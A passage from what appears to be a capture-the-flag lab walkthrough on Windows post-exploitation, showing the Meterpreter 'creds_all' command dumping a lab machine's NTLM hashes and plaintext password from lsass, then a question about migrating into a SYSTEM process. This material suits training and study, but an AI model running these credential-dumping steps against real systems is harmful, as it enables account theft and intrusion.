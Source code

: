 ```bash
    wifi_list_shared       List shared wifi profiles/creds (requires SYSTEM)
```

>>TO GET THE CREDS USE "creds_all".

```bash
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain   LM                                NTLM                              SHA1
--------  ------   --                                ----                              ----
Dark      Dark-PC  e52cac67419a9a22ecb08369099ed302  7c4fe5eada682714a036e39378362bab  0d082c4b4f2aeafb67fd0ea568a997e9d3ebc0eb

wdigest credentials
===================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
DARK-PC$  WORKGROUP  (null)
Dark      Dark-PC    Password01!

tspkg credentials
=================

Username  Domain   Password
--------  ------   --------
Dark      Dark-PC  Password01!

kerberos credentials
====================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
Dark      Dark-PC    Password01!
dark-pc$  WORKGROUP  (null)
```

## ANSWER THE FOLLOWING :
----

1.Prior to further action, we need to move to a process that actually has the permissions that we need to interact with the lsass service, the service responsible for authentication within Windows. First, let's list the processes using the command `ps`. Note, we can see processes being run by NT AUTHORITY\SYSTEM as we have escalated permissions (even though our process doesn't). 
>>No answer needed
